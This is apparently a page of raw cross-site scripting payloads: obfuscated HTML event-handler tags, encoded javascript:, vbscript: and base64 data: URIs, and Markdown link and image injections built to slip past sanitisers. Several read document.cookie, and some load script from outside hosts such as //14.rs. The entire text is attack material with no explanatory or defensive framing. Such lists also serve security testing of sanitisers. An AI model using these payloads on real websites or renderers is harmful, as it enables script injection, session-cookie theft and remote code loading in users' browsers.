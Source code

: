 <A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>


[totallyharmlesslink](javascript:window.onerror=alert;throw%201)

[clickme](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=)



[a](javascript:prompt(document.cookie))

[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))

![a](javascript:prompt(document.cookie))\


![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)

![a'"`onerror=prompt(document.cookie)](x)\

[citelol]: (javascript:prompt(document.cookie))

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[test](javascript://%0d%0aprompt(1))

[test](javascript://%0d%0aprompt(1);com)

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)

[notmalicious](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)

[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[clickme](vbscript:alert(document.domain))

[text](http://danlec.com " [@danlec](/danlec) ")

[a](javascript:this;alert(1))

[a](javascript:this;alert(1&#41;)

[a](javascript&#58this;alert(1&#41;)

[a](Javas&#99;ript:alert(1&#41;)

[a](Javas%26%2399;ript:alert(1&#41;)

[a](javascript:alert&#65534;(1&#41;)

[a](javascript:confirm(1)

[a](javascript://www.google.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a](javascript:alert(document.domain&#41;)

</http://<?php\><\h1\><script:script>confirm(2)


<a href="javascript:alert(/XSS/)">click</a>

<iframe src="javascript:alert(/XSS/)"></iframe>

<form action="javascript:alert(/XSS/)"></form>